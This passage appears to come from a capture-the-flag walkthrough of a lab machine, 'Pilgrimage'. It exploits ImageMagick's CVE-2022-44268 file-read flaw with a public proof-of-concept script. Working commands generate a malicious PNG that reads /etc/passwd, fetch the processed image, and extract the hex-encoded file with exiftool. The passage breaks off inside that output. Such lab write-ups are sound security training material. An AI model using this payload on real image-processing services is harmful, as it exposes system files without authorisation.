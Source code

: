 https://github.com/voidz0r/CVE-2022-44268

```
└──╼ [★]$ sudo pip3 install pypng
Collecting pypng
  Downloading pypng-0.20220715.0-py3-none-any.whl (58 kB)
     |████████████████████████████████| 58 kB 4.3 MB/s 
Installing collected packages: pypng
Successfully installed pypng-0.20220715.0
```

```
└──╼ [★]$ sudo python3 generate.py -f "/etc/passwd" -o exploit1

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /etc/passwd
   [>] PoC PNG generated > exploit1
```

└──╼ [★]$ sudo wget http://pilgrimage.htb/shrunk/64a32325a387c.png
--2023-07-03 20:36:46--  http://pilgrimage.htb/shrunk/64a32325a387c.png
Resolving pilgrimage.htb (pilgrimage.htb)... 10.129.150.112
Connecting to pilgrimage.htb (pilgrimage.htb)|10.129.150.112|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1688 (1.6K) [image/png]
Saving to: ‘64a32325a387c.png’

64a32325a387c.png   100%[===================>]   1.65K  --.-KB/s    in 0s      

2023-07-03 20:36:46 (195 MB/s) - ‘64a32325a387c.png’ saved [1688/1688]


└──╼ [★]$ exiftool 64a32325a387c.png -b
Warning: [minor] Text chunk(s) found after PNG IDAT (may be ignored by some readers) - 64a32325a387c.png
12.1664a32325a387c.png.16882023:07:03 20:36:05+01:002023:07:03 20:37:46+01:002023:07:03 20:36:46+01:00644PNGPNGimage/png128128820002.20.31270.3290.640.330.30.60.150.06255 255 2552023:07:03 19:36:05

    1437
726f6f743a783a303a303a726f6f743a2f726f6f743a2f62696e2f626173680a6461656d
6f6e3a783a313a313a6461656d6f6e3a2f7573722f7362696e3a2f7573722f7362696e2f
6e6f6c6f67696e0a62696e3a783a323a323a62696e3a2f62696e3a2f7573722f7362696e
2f6e6f6c6f67696e0a7379733a783a333a333a7379733a2f6465763a2f7573722f736269
6e2f6e6f6c6f67696e0a73796e633a783a343a36353533343a73796e633a2f62696e3a2f
62696e2f73796e630a67616d65733a783a353a36303a67616d65733a2f7573722f67616d
65733a2f7573722f7362696e2f6e6f6c6f67696e0a6d616e3a783a363a31323a6d616e3a
2f7661722f63616368652f6d616e3a2f7573722f7362696e2f6e6f6c6f67696e0a6c703a
783a373a373a6c703a2f7661722f73706f6f6c2f6c70643a2f7573722f7362696e2f6e6f
6c6f67696e0a6d61696c3a783a383a383a6d61696c3a2f7661722f6d61696c3a2f757372
2f7362696e2f6e6f6c6f67696e0a6e6577733a783a393a393a6e6577733a2f7661722f73
706f6f6c2f6e6577733a2f7573722f7362696e2f6e6f6c6f67696e0a757563703a783a31
303a31303a757563703a2f7661722f73706f6f6c2f757563703a2f7573722f7362696e2f
6e6f6c6f67696e0a70726f78793a783a31333a31333a70726f78793a2f62696e3a2f7573
722f7362696e2f6e6f6c6f67696e0a7777772d646174613a783a33333a33333a7777772d
646174613a2f7661722f7777773a2f7573722f7362696e2f6e6f6c6f67696e0a6261636b
75703a783a33343a33343a6261636b75703a2f7661722f6261636b7570733a2f7573722f
7362696e2f6e6f6c6f67696e0a6c6973743a783a33383a33383a4d61696c696e67204c69
7374204d616e616765723a2f7661722f6c6973743a2f7573722f7362696e2f6e6f6c6f67
696e0a6972633a783a33393a33393a697263643a2f72756e2f697263643a2f7573722f73
62696e2f6e6f6c6f67696e0a676e6174733a783a34313a34313a476e617473204275672d
5265706f7274696e672053797374656d202861646d696e293a2f7661722f6c69622f676e
6174733a2f7573722f7362696e2f6e6f6c6f67696e0a6e6f626f64793a783a3635353334
3a36353533343a6e6f626f64793a2f6e6f6e6578697374656e743a2f7573722f7362696e
2f6e6f6c6f67696e0a5f6170743a783a3130303a36353533343a3a2f6e6f6e6578697374
656e743a2f7573722f7362696e2f6e6f6c6f67696e0a73797374656d642d6e6574776f72
6b3a783a3130313a3130323a73797374656d64204e6574776f726b204d616e6167656d65